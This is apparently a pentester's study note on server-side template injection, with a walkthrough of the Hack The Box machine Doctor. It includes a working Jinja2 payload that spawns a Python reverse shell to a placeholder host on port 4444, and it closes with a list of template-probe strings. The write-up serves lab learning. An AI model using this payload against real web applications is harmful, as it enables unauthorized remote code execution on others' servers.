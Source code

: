 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

Server-Side Template Injection (SSTI) exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## SSTI Testing

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, follow this flowchart from Hacktricks:

<figure><img src="../../.gitbook/assets/image (2580).png" alt=""><figcaption></figcaption></figure>

Generally, I try to identify what backend the website runs on (PHP, Ruby, etc.) and see if there are portions where **user-input is displayed** to run my tests on. This includes usernames, posts made to forums, etc.

## Example

The HTB machine Doctor uses SSTI for the initial access step.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.

<figure><img src="../../.gitbook/assets/image (1798).png" alt=""><figcaption></figcaption></figure>

I tested for SSTI. I tested a few payloads and made a new post:

<figure><img src="../../.gitbook/assets/image (718).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would shows this:

<figure><img src="../../.gitbook/assets/image (3164).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, the website is running on either Jinja2 or Twig. A payload from PayloadAllTheThings can then be used:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```

Editing the payload with the correct IP and port number gave me a reverse shell. SSTI is rather easy to exploit once found. Here are some other payloads used for testing:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
